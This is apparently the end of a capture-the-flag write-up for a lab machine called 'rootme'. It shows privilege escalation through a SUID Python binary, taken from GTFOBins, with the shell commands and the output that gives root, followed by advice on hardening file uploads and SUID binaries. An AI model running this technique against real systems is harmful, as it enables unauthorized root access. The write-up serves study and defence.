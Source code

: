 We can consult [GTFOBins](https://gtfobins.github.io/gtfobins/python/) for what to do with Python.

![](https://i.imgur.com/16F3eQP.png)

So if we run the command below as suggested we should get root.

**Using Python to get root**
```console
www-data@rootme:/tmp$ cd /usr/bin
cd /usr/bin
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

## Conclusion
---

So what can we learn from this?

- Limit web direcotry traversal is only what is needed
- Uploads should have no execute permissions. Store files in a database if possible rather than a filesystem.
- Upload files should be validated, stripped of any control/special characters. Also only one dot should be allowed.
- Each time a file is uploaded it should be renamed to a random unique hash name to prevent attackers from finding their file.
- Be aware of binaries that can be executed as system or root via SUID/SGID
